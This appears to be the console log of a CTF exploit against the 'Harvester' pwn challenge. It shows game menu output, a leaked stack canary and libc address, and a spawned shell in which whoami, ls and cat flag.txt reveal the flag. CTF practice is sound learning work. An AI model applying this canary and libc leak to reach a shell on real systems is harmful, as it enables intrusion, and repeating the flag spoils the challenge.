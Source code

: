 ```
b' \xf0\x9f\x8f\x83\n> \x1b[1;36m\nChoose weapon:\n\n[1] \xf0\x9f\x97\xa1\t\t[2] \xf0\x9f\x92\xa3\n[3] \xf0\x9f\x8f\xb9\t\t[4]'
b' \xf0\x9f\x94\xab\n> \nYour choice is: '
Canary is 0xeb2c0f2ad8544400
b' not strong enough to fight yet.\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
b' \xf0\x9f\x8f\x83\n> \x1b[1;36m\nChoose weapon:\n\n[1] \xf0\x9f\x97\xa1\t\t[2] \xf0\x9f\x92\xa3\n[3] \xf0\x9f\x8f\xb9\t\t[4]'
b' \xf0\x9f\x94\xab\n> \nYour choice is: '
nanosleep_libc 0x7f08152cc760
935776
b' not strong enough to fight yet.\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
b' \xf0\x9f\x8f\x83\n> \nYou have: 10 \xf0\x9f\xa5\xa7\n\nDo you want to drop some? (y/n)'
b'\n> \nHow many do you want to drop?'
b'\n> \nYou have: 21 \xf0\x9f\xa5\xa7\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
b' \xf0\x9f\x8f\x83\n> \x1b[1;36m\nYou try to find its weakness, but it seems invincible..\nLooking around, you see something inside a bush.\x1b[1;32m\n[+] You found 1 \xf0\x9f\xa5\xa7!\n\x1b[1;32m\nYou also notice that if the Harvester eats too many pies, it falls asleep.\nDo you want to feed it?'
[*] Switching to interactive mode

> 
This did not work as planned..
$ whoami
ctf
$ ls
flag.txt  harvester  libc.so.6
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```
